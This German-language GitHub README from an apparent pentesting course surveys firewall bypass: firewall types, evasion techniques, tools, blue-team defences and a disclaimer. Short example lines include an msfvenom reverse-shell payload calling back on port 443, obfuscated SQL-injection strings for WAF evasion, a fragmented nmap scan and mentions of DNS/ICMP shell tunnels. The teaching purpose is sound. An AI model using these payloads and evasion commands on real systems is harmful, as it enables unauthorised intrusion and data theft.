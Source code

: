 # 🔥 Firewall Bypass – Techniken, Tools & Schutzmaßnahmen



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Arten von Firewalls](#arten-von-firewalls)
- [Ziel von Firewall Bypass Techniken](#ziel-von-firewall-bypass-techniken)
- [Häufige Techniken zur Umgehung](#häufige-techniken-zur-umgehung)
- [Tools zur Analyse und Bypass](#tools-zur-analyse-und-bypass)
- [Verteidigungsmaßnahmen (Blue Team)](#verteidigungsmaßnahmen-blue-team)
- [Lernressourcen)](#lernressourcen)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Einleitung

Firewalls sind Sicherheitsmechanismen, die den Netzwerkverkehr auf Basis definierter Regeln filtern. Sie dienen dazu:
- **Unerlaubte Zugriffe zu verhindern**
- **Angriffsversuche zu erkennen**
- **Verbindungen zu blockieren oder zuzulassen**

Ein **Firewall Bypass** bezeichnet die **Umgehung dieser Filtermechanismen**, z. B. durch Tarnung oder Manipulation des Traffics. Dieses Wissen ist für **Pentester** und **Security Analysts** essenziell, um Schwächen in der Konfiguration zu erkennen.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Arten von Firewalls

| Firewall-Typ            | Beschreibung                                        |
|-------------------------|-----------------------------------------------------|
| Paketfilter (Stateless) | Analysiert nur Header (z. B. IP, Port, Protokoll)   |
| Stateful Firewall       | Erkennt Verbindungskontexte (SYN → ACK etc.)        |
| Application Firewall    | Analysiert Inhalte auf Anwendungsebene (HTTP, FTP)  |
| Web Application Firewall (WAF)| Schutz vor typischen Web-Angriffen (SQLi, XSS)|
| Host-Based Firewall     | Lokal auf Systemen (z. B. Windows Defender Firewall)|
| Next-Gen Firewalls      | Kombinieren mehrere Funktionen inkl. IDS/IPS        |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Ziel von Firewall Bypass Techniken

- Zugriff auf gesperrte Ports oder Dienste
- Umgehen von Inhaltsscans (z. B. bei WAFs)
- Vermeiden der Detektion durch Security-Systeme
- Platzieren von Payloads oder Backdoors




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Häufige Techniken zur Umgehung

### 1. Tarnung über erlaubte Ports
> Firewalls blockieren oft alles außer HTTP (80), HTTPS (443), DNS (53), usw.

Beispiel:
```bash
ncat --proxy-type http --proxy 192.168.1.1:8080 target.com 443
```

Oder:

- Reverse Shell über Port 443 senden
- Malware über Port 53 (DNS-Tunnel) exfiltrieren



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 2. Payload Obfuscation
Inhalte verschleiern, um Signaturen zu umgehen (z. B. bei WAFs)

Beispiele:
```bash
# SQLi-Befehl verschleiert:
?id=1/**/UNION/**/SELECT/**/password/**/FROM/**/users

# Unicode-Encoding
?id=1%u002f%u002aUNION%u002f%u002aSELECT...

# Hex oder Base64 verschlüsselt sind auch noch weitere Verfahren einer PO
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 3. Fragmentierung von Paketen

Durch Aufteilen des Paketinhalts auf mehrere TCP-Segmente kann die Firewall umgangen werden, wenn sie keine vollständige Rekonstruktion vornimmt.

```bash
nmap -f target.com      # Fragmentierter Scan
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 4. Protocol Tunneling (DNS, ICMP, HTTP)

Verbotene Protokolle über erlaubte Protokolle transportieren.

Tools:

- dnscat2 – Shell über DNS
- iodine – Internet over DNS
- httptunnel – TCP-Tunnel via HTTP
- icmpsh – Shell über ICMP



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 5. Über Ports, die der Firewall "vertrauenswürdig" erscheinen

Reverse Shell über HTTPS:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f elf > shell.elf
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tools zur Analyse und Bypass

| Tool       | Zweck                                      |
| ---------- | ------------------------------------------ |
| Nmap       | Portscans, Fragmentierung, Timing          |
| Netcat     | Manuelle Verbindungen über beliebige Ports |
| Socat      | Flexible Verbindungstunnel                 |
| Metasploit | Automatisierte Payloads & Bypasses         |
| Iodine     | DNS-Tunnel                                 |
| ICMPshell  | Shell über Ping                            |




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Verteidigungsmaßnahmen (Blue Team)

- Port-Whitelisting: Nur notwendige Ports erlauben
- Deep Packet Inspection (DPI): Inhalte auch fragmentiert scannen
- Timeout-Management: Verhindert Time-based Evasion
- IDS/IPS-Systeme: Tools wie Snort oder Suricata zur Signaturerkennung
- WAF-Härtung: Regeln regelmäßig aktualisieren, Obfuskation erkennen
- Application Layer Filtering: DNS, HTTP, ICMP gezielt prüfen




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Lernressourcen

- TryHackMe: Rooms zu „Firewall Evasion“ und „Nmap Advanced“
- HackTheBox: Viele Labs mit WAF/Firewall-Herausforderungen
- YouTube: John Hammond, The Cyber Mentor – „Firewall Evasion Techniques“
- Bücher: „The Hacker Playbook 3“, „Nmap Network Scanning“




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!